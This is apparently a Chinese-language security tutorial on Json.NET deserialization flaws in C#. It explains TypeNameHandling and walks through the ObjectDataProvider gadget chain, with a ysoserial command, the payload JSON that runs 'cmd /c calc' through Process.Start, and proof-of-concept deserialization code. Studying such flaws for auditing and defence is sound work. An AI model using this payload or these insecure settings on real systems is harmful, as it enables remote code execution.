









# 环境搭建



在rider中的解决方案右键选择管理`NuGet`包，然后下载`Newtonsoft.Json`



后续还是要用到`ObjectDataProvider`，还需要添加`PresentationFramework`引用

# Json.Net序列化与反序列化

## 序列化

Newtonsoft.Json中使用JSONSerializer可以非常方便的实现.NET对象与Json之间的转化，JSONSerializer把.NET对象的属性名转化为Json数据中的Key，把对象的属性值转化为Json数据中的Value，并不能转换方法

```C#
using Newtonsoft.Json;
using System;
using System.Diagnostics;

namespace Json.NetSerializer
{
    class Person
    {
        private string name;
        private string classname;
        private int age;
        [JsonProperty]
        public string Name { get => name; set => name = value; }
        [JsonProperty]
        public int Age
        {
            get => age;
            set => age = value;
        }
        [JsonIgnore]
        public string ClassName
        {
            get => classname;
            set => classname = value;
        }

        public override string ToString()
        {
            return base.ToString();
        }

        public void test(string value)
        {
            Console.WriteLine(value);
        }

        public static void execute_command(string cmd)
        {
            Process.Start(cmd);
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            Person person = new Person();
            person.Name = "jack";
            person.Age = 18;
            person.ClassName = "person"; 
            string v = JsonConvert.SerializeObject(person);
            string v1 = JsonConvert.SerializeObject(person, new JsonSerializerSettings()
            {
                TypeNameHandling = TypeNameHandling.None
            });
            string v2 = JsonConvert.SerializeObject(person, new JsonSerializerSettings()
            {
                NullValueHandling = NullValueHandling.Ignore,
                TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full,
                TypeNameHandling = TypeNameHandling.All
            });
            Console.WriteLine(v);
            Console.WriteLine(v1);
            Console.WriteLine(v2);
        }
    }
}
```



可以注意到这里使用了三种不同的`SerializeObject`，区别在于`TypeNameHandling`

- `NullValueHandling`
  - 如果序列化需要忽略NULL属性，可以用`NullValueHandling.Ignore`来实现
- `TypeNameAssemblyFormatHandling`
  - 为了避免一些环境下不兼容的问题，需要用到完整的程序集名称，可以用`TypeNameAssemblyFormatHandling.Full`来实现
- `TypeNameHandling`
  - 控制`Json.Net`是否使用`$type`属性进行序列化时包含`.NET`类型名称，并从该属性读取`.NET`类型名称以确定在反序列化期间要创建的类型

当直接调用的时候

```
JsonConvert.SerializeObject(person);
```



会调用另外的一个重载的SerializeObject方法，这个方法会创建一个默认的JsonSerializerSettings



最后跟了一路，默认的设置也就是`TypeNameHandling.None`



所以说这两行代码是等效的

```C#
string v = JsonConvert.SerializeObject(person);
string v1 = JsonConvert.SerializeObject(person, new JsonSerializerSettings()
{
    TypeNameHandling = TypeNameHandling.None
});
```

而这的Json.Net反序列化漏洞就是当TypeNameHandling非None时，可以传入自定义json触发RCE

## 反序列化

```
{"$type":"Json.NetSerializer.Person, Json.NetSerializer","Name":"jack","Age":18}
```

反序列化的话是通过JsonConvert.DeserializeObject来实现的，默认情况下设置为TypeNameHandling.None，表示Json.NET在反序列化期间不读取或写入类型名称

```
class Program
{
    static void Main(string[] args)
    {
        string payload =
            "{\"$type\":\"Json.NetSerializer.Person, Json.NetSerializer\",\"Name\":\"jack\",\"Age\":18}\n";

        Object obj1 = JsonConvert.DeserializeObject(payload, new JsonSerializerSettings
        {
            TypeNameHandling = TypeNameHandling.None
        });
        
        Object obj2 = JsonConvert.DeserializeObject(payload, new JsonSerializerSettings
        {
            TypeNameHandling = TypeNameHandling.All
        });
        
        Console.WriteLine(obj1);
        Console.WriteLine(obj2);
        Console.WriteLine(obj2.GetType().GetProperty("Name").GetValue(obj2, null));
    }
}
```



# 反序列化链

## 攻击链ObjectDataProvider

```
ysoserial.exe -g ObjectDataProvider -f json.net -c calc
```

生成payload如下

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

### 漏洞复现

```
using Newtonsoft.Json;
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;

namespace Json.NetSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            // JsonConvert
            JsonConvert.DeserializeObject(File.ReadAllText("1.json"),new JsonSerializerSettings() { TypeNameHandling =TypeNameHandling.All});
            // JsonSerializer
            JsonSerializer jsonSerializer = JsonSerializer.CreateDefault();
            jsonSerializer.TypeNameHandling = TypeNameHandling.All;
            using (StreamReader sr = new StreamReader("1.json"))
            using (JsonReader reader = new JsonTextReader(sr))
            {
                jsonSerializer.Deserialize(reader);
            }
            Console.ReadKey();
        }
    }
}
```

上面两种方式都可以触发RCE，弹出计算器

### 漏洞分析

还记得在前面学习`XmlSerializer`的时候，提到了`ObjectDataProvider`可以这样去调用方法执行命令

```
class Program
{
    static void Main(string[] args)
    {
        ObjectDataProvider objectDataProvider = new ObjectDataProvider();
        objectDataProvider.MethodName = "Start";
        objectDataProvider.MethodParameters.Add("cmd.exe");
        objectDataProvider.MethodParameters.Add("/c calc");
        objectDataProvider.ObjectInstance = new Process();
        Console.ReadKey();
    }
}
```

那如果直接用Json.Net对这个类进行序列化，然后反序列化时就可以触发，但是当我实际序列化的时候



发生了报错，当我将ObjectDataProvider的类换成下面后，就得到了序列化的值

```C#
using Newtonsoft.Json;
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Windows.Data;

namespace Json.NetSerializer
{
    class Person
    {
        public void evil(string filename, string cmd)
        {
            Process process = new Process();
            process.StartInfo.FileName = filename;
            process.StartInfo.Arguments = cmd;
            process.Start();
        }
    }
    
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider objectDataProvider = new ObjectDataProvider();
            objectDataProvider.MethodName = "evil";
            objectDataProvider.MethodParameters.Add("cmd.exe");
            objectDataProvider.MethodParameters.Add("/c calc");
            objectDataProvider.ObjectInstance = new Person();

            string payload = JsonConvert.SerializeObject(objectDataProvider, new JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.All,
                TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full
            });
            Console.WriteLine(payload);
        }
    }
}
```

```json
{"$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35","ObjectInstance":{"$type":"Json.NetSerializer.Person, Json.NetSerializer, Version=1.0.0.
0, Culture=neutral, PublicKeyToken=null"},"MethodName":"evil","MethodParameters":{"$type":"MS.Internal.Data.ParameterCollection, PresentationFramework, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35","$values"
:["cmd.exe","/c calc"]},"IsAsynchronous":false,"IsInitialLoadEnabled":true,"Data":null,"Error":null}
```

那可以对这个内容进行修改来得到System.Diagnostics.Process序列化的Json字符串，替换掉ObjectInstance的$type、MethodName的值以及MethodParameters的$type值，删除一些不需要的Member、最终得到的反序列话Json字符串如下

```json
{

'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',

'MethodName':'Start',

'MethodParameters':{

'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',

'$values':['cmd','/c calc']

},

'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}

}
```

就可以得到和yso一样的payload

`JsonConvert.DeserializeObject`第一个参数需要被序列化的字符串、第二个参数设置序列化配置选项来指定JsonSerializer按照指定的类型名称处理，其中`TypeNameHandling`可选择的成员分为五种



默认情况下`TypeNameHandling`为None,表示`Json.NET`在反序列化期间不读取或写入类型名称。会使传递就去类名无法进行读取和写入，即不可触发漏洞。

只有当 TypeNameHandling 不为 None 时，传入的 Json 字符串中所附带类型名称才能被读取写入。这样才能触发反序列化漏洞。

设置为非空值、也就是对象（Objects） 、数组（Arrays） 、自动识别 (Auto) 、所有值(ALL) 的时候都会造成反序列化漏洞

# 代码审计

其实就只需要找到Json.Net类的反序列化，其中TypeNameHanding不为None，就可以传入payload进行反序列化

在https://xz.aliyun.com/t/9603中也提到了CVE-2017-9424中出现的反序列化漏洞


参考链接：

https://www.anquanke.com/post/id/172920#/h3-5

https://xz.aliyun.com/t/9603

https://www.cnblogs.com/nice0e3/p/15294585.html#/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96
